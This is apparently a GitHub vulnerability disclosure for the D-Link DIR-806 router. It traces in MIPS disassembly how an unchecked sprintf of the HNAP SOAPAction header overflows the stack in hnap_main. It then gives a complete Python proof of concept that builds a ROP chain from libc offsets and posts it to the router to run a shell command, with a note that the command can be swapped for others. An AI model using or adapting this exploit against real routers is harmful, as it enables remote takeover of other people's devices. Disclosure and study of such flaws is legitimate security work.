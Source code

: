 # DIR-806_Stack Overflow to Run Shellcode

The fireware is the lasted version of DIR-806 in DLINK website：
```
http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-806 
```
## Vulnerability Analyze
just like the start of:
```
https://github.com/Kirin-say/Vulnerabilities/blob/master/DIR-806_Code_Injection.md
```
When the router get the request of HNAP, it will call the hnap_main() function in /htdocs/cgibin,then it get SOAPAction by getenv :
```
.text:00411FAC                 la      $a0, aHttp_authoriza  # "HTTP_AUTHORIZATION"
.text:00411FB0                 lui     $a0, 0x42  # 'B'
.text:00411FB4                 lw      $gp, 0x248+var_230($sp)
.text:00411FB8                 la      $a0, aHttp_soapactio  # "HTTP_SOAPACTION"
.text:00411FBC                 la      $t9, getenv
.text:00411FC0                 jalr    $t9 ; getenv
.text:00411FC4                 move    $s2, $v0
.text:00411FC8                 lui     $a0, 0x42  # 'B'
.text:00411FCC                 lw      $gp, 0x248+var_230($sp)
.text:00411FD0                 la      $a0, aRequest_method  # "REQUEST_METHOD"
.text:00411FD4                 la      $t9, getenv
```
then it will check the SOAPAction start with `http://purenetworks.com/HNAP1/GetDeviceSettings`:
```
.text:00411FF0                 la      $t9, strstr
.text:00411FF4                 la      $a1, aHttpPurenetwor  # "http://purenetworks.com/HNAP1/GetDevice"...
.text:00411FF8                 jalr    $t9 ; strstr
.text:00411FFC                 move    $a0, $s0         # haystack
.text:00412000                 lw      $gp, 0x248+var_230($sp)
.text:00412004                 bnez    $v0, loc_412044
```
then the function will get the string in SOAPAction that after the right "/" by strrchr:
```
.text:00412044                 la      $t9, strrchr
.text:00412048                 move    $a0, $s0         # s
.text:0041204C                 jalr    $t9 ; strrchr
.text:00412050                 li      $a1, 0x2F  # '/'  # c
.text:00412054                 lw      $gp, 0x248+var_230($sp)
.text:00412058                 bnez    $v0, loc_412080
```
then it will call the sprintf function but it won't check the length of the strings that it got by strrchr,and it store it in the stack:
```
.text:00412430                 lui     $a1, 0x42  # 'B'
.text:00412434                 move    $a0, $s4         # s
.text:00412438                 addiu   $a2, (aVarRun_0 - 0x420000)  # "/var/run/"
.text:0041243C                 la      $a1, aShSS_shDevCo_0  # "sh %s%s.sh > /dev/console &"
.text:00412440
.text:00412440 loc_412440:                              # CODE XREF: hnap_main+4D8↑j
.text:00412440                 jalr    $t9 ; sprintf
```
so that we can overflow the $s0-s7 and $ra when hnap_main return:
```
.text:004124C4                 lw      $ra, 0x248+var_4($sp)
.text:004124C8                 lw      $s7, 0x248+var_8($sp)
.text:004124CC                 lw      $s6, 0x248+var_C($sp)
.text:004124D0                 lw      $s5, 0x248+var_10($sp)
.text:004124D4                 lw      $s4, 0x248+var_14($sp)
.text:004124D8                 lw      $s3, 0x248+var_18($sp)
.text:004124DC                 lw      $s2, 0x248+var_1C($sp)
.text:004124E0                 lw      $s1, 0x248+var_20($sp)
.text:004124E4                 lw      $s0, 0x248+var_24($sp)
.text:004124E8                 jr      $ra
.text:004124EC                 addiu   $sp, 0x248
```
If we make a rop chain in stack,it will finally call the system(our cmd)
## POC
```
from pwn import *
import requests
import sys
def get_payload():
  cmd="reboot;".ljust(30,"a")
  libc_addr=0x7679BA60-0x002aa60
  payload="http://purenetworks.com/HNAP1/GetDeviceSettings/"
  payload+="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"  
  payload+="aaaa"*6
  payload+=p32(libc_addr+0x003E204)[::-1]#s6
  payload+=p32(libc_addr+0x052510)[::-1]#s7
  payload+=p32(libc_addr+0x0F5B4)[::-1]#ra->get cmd in s4->jar s6
  payload+="aaaa"*4
  payload+=cmd
  return payload
data="<?xml version=\"1.0\" encoding=\"UTF-8\"?>\
<soap:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\" soap:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\
  <soap:Body>\
    <GetWanSettings xmlns=\"http://purenetworks.com/HNAP1/\">\
    </GetWanSettings>\
  </soap:Body>\
</soap:Envelope>"

if __name__=="__main__":
    fake_cmd=get_payload()
    header = {
        'SOAPAction' : fake_cmd,
        'Cookie'        : "uid=LS32Srlx8N",
        'Content-Type'  : 'text/xml',
        'Content-Length': str(len(data))
        }
    url="http://192.168.0.1/HNAP1/"
    r=requests.post(url=url,headers=header,data=data)
    log.info("Kirin-say PWN")
```
you can also edit the cmd to run different shell,but you should also edit the libc_addr because I write this POC by qemu,so you should edit offset of libc.so.0 in real environment.
 For example(the router reboot successfully) 
![Success](https://upload-images.jianshu.io/upload_images/7434375-a0bda011a271ec24.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
